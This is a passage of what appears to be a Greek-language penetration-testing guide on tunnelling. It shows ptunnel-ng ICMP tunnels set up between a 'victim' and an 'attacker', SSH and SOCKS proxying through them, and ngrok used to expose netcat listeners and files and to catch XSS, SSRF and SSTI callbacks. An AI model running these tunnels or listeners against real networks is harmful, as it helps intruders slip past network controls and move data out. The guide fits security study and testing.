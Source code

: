 [**Κατεβάστε το από εδώ**](https://github.com/utoni/ptunnel-ng.git).
```bash
# Generate it
sudo ./autogen.sh

# Server -- victim (needs to be able to receive ICMP)
sudo ptunnel-ng
# Client - Attacker
sudo ptunnel-ng -p <server_ip> -l <listen_port> -r <dest_ip> -R <dest_port>
# Try to connect with SSH through ICMP tunnel
ssh -p 2222 -l user 127.0.0.1
# Create a socks proxy through the SSH connection through the ICMP tunnel
ssh -D 9050 -p 2222 -l user 127.0.0.1
```
## ngrok

**[ngrok](https://ngrok.com/) είναι ένα εργαλείο για την έκθεση λύσεων στο Διαδίκτυο με μία γραμμή εντολής.**
*Οι URI έκθεσης είναι όπως:* **UID.ngrok.io**

### Εγκατάσταση

- Δημιουργήστε έναν λογαριασμό: https://ngrok.com/signup
- Λήψη πελάτη:
```bash
tar xvzf ~/Downloads/ngrok-v3-stable-linux-amd64.tgz -C /usr/local/bin
chmod a+x ./ngrok
# Init configuration, with your token
./ngrok config edit
```
### Βασικές χρήσεις

**Τεκμηρίωση:** [https://ngrok.com/docs/getting-started/](https://ngrok.com/docs/getting-started/).

*Είναι επίσης δυνατή η προσθήκη αυθεντικοποίησης και TLS, αν είναι απαραίτητο.*

#### Τούνελινγκ TCP
```bash
# Pointing to 0.0.0.0:4444
./ngrok tcp 4444
# Example of resulting link: 0.tcp.ngrok.io:12345
# Listen (example): nc -nvlp 4444
# Remote connect (example): nc $(dig +short 0.tcp.ngrok.io) 12345
```
#### Έκθεση αρχείων με HTTP
```bash
./ngrok http file:///tmp/httpbin/
# Example of resulting link: https://abcd-1-2-3-4.ngrok.io/
```
#### Sniffing HTTP calls

*Χρήσιμο για XSS, SSRF, SSTI ...*
Απευθείας από το stdout ή στη διεπαφή HTTP [http://127.0.0.1:4040](http://127.0.0.1:4000).
